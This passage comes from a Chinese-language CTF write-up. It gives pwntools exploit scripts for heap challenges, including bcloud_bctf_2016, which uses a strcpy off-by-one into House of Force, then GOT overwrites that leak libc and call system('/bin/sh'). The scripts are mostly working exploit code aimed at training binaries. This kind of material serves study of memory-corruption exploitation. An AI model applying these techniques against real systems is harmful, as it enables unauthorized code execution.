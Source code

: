 ```python
bk = small-0x10
payload = flat(0,0x21,fd,bk,0x20,0x90,'a'*0x80)
payload += flat(0,0x21,'a'*0x10,0,0x21)
edit(3,payload)
delete(2)

# ?,big,huge,small,big_flag,huge_flag,small_flag
payload = flat(0,elf.got['atoi'],elf.got['puts'],elf.got['free']) + p32(1)*3
edit(1,payload)
edit(1,p64(elf.plt['puts'])) # free -> puts
delete(2)
atoi = uu64(r(6))
system,binsh = ret2libc(atoi,'atoi')
edit(1,p64(system))
add(2,'/bin/sh\x00')
delete(2)
```


### bcloud_bctf_2016
在读入名字和读入 Org 以及 Host 时，均存在同样的 `strcpy` 漏洞，前者导致泄露堆地址，而后者允许我们 off-by-one 修改 top chunk 的大小，从而实现 House of Force。通过 gdb 调试得到 `top_chunk = heap + 0xd0`，那么构造的 `evil_size` 就是我们想分配到的 `note_len` 数组地址减去 header 的 0x8，减去 `old_top_chunk` 地址，再减去 12，这是因为已经分配了三个堆块，在程序中每个堆块额外分配了 4B。最后从 `note_len` 覆盖到 `note` 数组，劫持 `free` 到 `printf` 泄露 libc，再劫持 `atoi` 到 `system`。


```python
def add(len,content='a'):
	sla('>>\n','1')
	sla(':\n',str(len))
	sa(':\n',content)
def delete(index):
	sla('>>\n','4')
	sla(':\n',str(index))
def edit(index,content):
	sla('>>\n','3')
	sla(':\n',str(index))
	sla(':\n',content)

sa('name:\n','a'*0x40)
ru('a'*0x40)
heap = uu32(r(4))
leak('heap',heap)

sa('Org:\n','a'*0x40)
sla('Host:\n',p32(0xffffffff))

note_len = 0x804b0a0
note = 0x804b120
top_chunk = heap + 0xd0
evil_size = note_len-0x8-top_chunk-0xc # gdb
add(evil_size,'')
payload = flat((note-note_len)*'a',elf.got['atoi'],elf.got['free'],elf.got['atoi'])
add(len(payload),payload)
edit(1,p32(elf.plt['printf']))
delete(0) # printf(atoi.got)
atoi = uu32(r(4))
system,binsh = ret2libc(atoi,'atoi')
edit(2,p32(system))
sla('>>\n','/bin/sh\x00')
```
